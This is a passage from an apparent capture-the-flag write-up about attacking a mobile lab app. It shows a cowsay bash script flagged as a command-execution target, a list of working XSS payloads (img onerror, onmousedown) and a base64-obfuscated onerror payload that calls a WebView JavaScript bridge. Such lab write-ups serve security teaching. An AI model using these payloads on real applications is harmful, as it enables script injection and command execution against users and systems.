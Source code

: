 ```bash
# Function to print the speech bubble with the message
print_message() {
    message="$1"
    print_top "$message"
    printf "< %s >\n" "$message" # << Our target to execute commands.
    print_bottom "$message"
}

# Main script execution
main() {
    if [ "$#" -lt 1 ]; then
        printf "Usage: %s <message>\\n" "$0"
        exit 1
    fi

    # Concatenate all arguments into one argument separated by a space
    message="$*"

    print_message "$message"
    print_cow
}
```

# The moo of a Cow

At first I tried the XSS 101 payload, the famous `<script>alert(1)</script>`. But it doesn’t work. So, to find out the correct payload to trigger our JavaScript tag, I use the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) XSS list and perform a manual fuzzing.

Bellow is the list of the payloads that trigger:

- `<a href="" onmousedown="var name = '&#39;;alert(1)//';alert('smthg')">Link</a>`
- `#"><img src=/ onerror=alert(1)>`
- `<img src=x onerror=alert(1)>`
- `<img/src='1'/onerror=alert(1)>`

The reason to not follow with the `onmousedown` event is that it requires a user interaction, and we want to trig the payload without the user interaction. That is why we will follow with the `onerror` event.

So, let’s first create a simple payload:

![img4.png](/assets/images/ctf-mhl/post-board-lab/img4.png)

```bash
<img/src='1'/onerror=eval(atob("d2luZG93LldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgiUFdORUQhIik="))>
```
